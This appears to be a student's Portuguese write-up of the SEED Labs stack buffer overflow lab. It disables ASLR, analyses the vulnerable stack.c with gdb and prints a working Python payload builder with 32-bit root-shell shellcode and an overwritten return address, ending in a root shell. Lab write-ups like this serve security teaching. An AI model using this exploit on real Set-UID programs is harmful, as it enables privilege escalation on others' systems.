 # Trabalho realizado na Semana #5

## **Seed Labs**

## Preparação

### Desativar <em>countermeasures<em>:

Desativar <em>Address Space Randomization<em>:

    $ sudo sysctl -w kernel.randomize_va_space=0

Configurar /bin/sh:

    $ sudo ln -sf /bin/zsh /bin/sh

StackGuard e Non-Executable Stack podem ser desativadas na compilação.

## Tarefa 1

**Objetivo:** Correr os programas a32.out e a64.out (call_shellcode.c) que correm o shellcode de 32-bit e 64-bit respetivamente e descrever o ocorrido.

**Conclusão:** Tal como esperado, os programas SetUID correm o shellcode e executam /bin/sh, abrindo a shell com privilégios de root.

## Tarefa 2

**Objetivo:** Compreender o programa vulnerável

**Procedimento:** Compilar o programa vulnerável, desligando a <em>StackGuard<em> e a proteção de stack não executável. Os comandos necessários para a compilação já estavam incluídos no makefile. Assim, foi apenas necessário escrever make para a execução desses comandos.

**Conclusão:** Observando o programa stack.c, é possível perceber que este abre um ficheiro de input e copia 517 bytes para um char str[517]. É depois chamada a função bof, que recebe um apontador para char. Dentro desta função é usado strcpy que não verifica o tamanho da string a copiar. <br>
Como são alocados apenas 100 bytes para a variável local buffer, e a string de input pode ter até 517 bytes, é possível causar buffer overflow e reescrever o endereço de retorno da função. Como o programa é compilado de um modo que permite a execução na stack, e uma vez que a stack também não está protegida, será possível alterar o endereço de retorno de modo a apontar para shellcode escolhido por nós. Como o programa é Set-UID e o dono é o root, será possível obter uma shell com privilégios root.

    int bof(char *str)
    {
        char buffer[BUF_SIZE];
        /* The following statement has a buffer overflow problem */
        strcpy(buffer, str);
        return 1;
    }

    int main(int argc, char **argv)
    {
        char str[517];
        FILE *badfile;
        badfile = fopen("badfile", "r");
        fread(str, sizeof(char), 517, badfile);
        bof(str);
        printf("Returned Properly\n");
        return 1;
    }

## Tarefa 3

**Objetivo:** Lançar um ataque no programa (32bit)

**Procedimento** Investigar:
1. Usando o gdb podemos descobrir a distância entre a posição de início do buffer e o endereço de retorno: 
        
        gdb stack-L1-dbg
        gdb-peda$ b bof
        Breakpoint 1 at 0x12ad: file stack.c, line 16.
        gdb-peda$ run
        gdb-peda$ next
        ...
        strcpy(buffer, str);
        gdb-peda$ p $ebp
        $1 = (void *) 0xffffc988
        gdb-peda$ p &buffer
        $2 = (char (*)[100]) 0xffffc91c
    Fazendo a diferença entre estes endereços ficamos a saber que a distância entre o frame pointer e a posição de início do buffer é de 108 bytes. Conclui-se que o endereço de retorno se encontra a 112 bytes de distância da posição de início do frame pointer, pois o tamanho do frame pointer é 4.

2. Sabendo esta distância, podemos verificar que é possível alterar o endereço de retorno. Para isso utilizamos o seguinte código python para gerar o ficheiro de input ("badfile"):
3. 
        #Código Python file_builder.py
        address = '\xdd\xcc\xbb\xaa' 
        nop = '\x90'
        print(nop*(112) + address)

    Correndo este script python para o ficheiro badfile e correndo o programa vulnerável com o gdb podemos verificar que é causado segmentation fault e vemos o nosso endereço (0xaabbccdd):

        python file_builder.py > badfile
        gdb stack-L1-dbg 
        gdb-peda$ run
        ...
        Stopped reason: SIGSEGV
        0xaabbccdd in ?? ()

4. Agora que sabemos onde colocar o endereço de retorno podemos colocar o nosso shellcode na payload, bem como alterar o endereço para apontar para o início do buffer. Este endereço será superior ao endereço obtido usando o gdb, pois este acrescenta variáveis na stack, logo usamos um endereço mais alto: xffffc9c0.

        #Código Python file_builder.py
        shellcode = '\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'

        address = '\xc0\xc9\xff\xff' #xffffc9c0

        nop = '\x90'

        print(nop*(112-len(shellcode)) + shellcode + address)
        #address estará na posição 112 do buffer
        #o buffer é preenchido com NOP até chegar ao shellcode

5. Lançar o ataque:

        python file_builder.py > badfile
        ./stack-L1
        # id                                                                           
        uid=0(root) gid=1000(seed) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)

